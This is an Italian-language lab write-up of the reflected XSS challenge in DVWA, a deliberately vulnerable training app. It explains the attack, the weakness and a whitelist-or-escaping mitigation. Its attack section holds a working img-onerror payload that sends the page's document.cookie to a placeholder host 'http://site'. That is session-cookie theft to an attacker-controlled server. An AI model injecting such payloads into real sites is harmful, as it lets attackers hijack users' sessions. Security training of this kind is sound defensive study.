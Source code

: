 # DVWA_low - XSS Reflected

## Obiettivo della sfida
Iniettare codice JS arbitrario in form HTML a differenza delle sfida XSS Stored questa volta abbiamo a disposizione molti più carattere(in xss_s solo 50) quindi è possibile costruire attacchi più sofisticati

## Strategia di attacco
Proviamo ad iniettare nel campo "What's your name" il seguente codice:
```html
<img src = x
onerror = this.src = 'http://site?c='+document.cookie />
```
Questa iniezione provoca l'invio di una richiesta al web server http://site l'URL contiene la richiesta dei cookie dell'utente che ha caricato la pagina, quindi se il web server è sotto controllo dall'attaccante egli può leggere i cookie

## Debolezze
1. L'app non neutralizza l'input dell'utente

## Mitigazione
1. Inserire un filto basato su **whitelist** facendo scegliere l'input in una lista di valori fidati(menu a tendina),oppure, neutralizzare i caratteri speciali